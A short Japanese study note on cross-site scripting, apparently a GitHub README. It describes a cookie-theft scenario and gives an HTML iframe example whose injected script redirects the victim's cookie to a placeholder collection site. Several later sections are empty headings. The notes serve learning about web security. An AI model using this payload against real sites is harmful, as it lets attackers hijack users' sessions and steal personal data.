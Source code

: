 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによってクッキー値や利用者の個人情報（クレジットカード情報など）が盗まれるといった影響が生じる。

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- 罠サイトにターゲット がアクセスすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

```html
<html>
  <body>
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

### JavaScript による XSS

#### React で発生するケース

### XSS によるセキュリティインシデントの実例

## 参考

安全な Web アプリケーションの作り方 第 2 版 徳丸浩
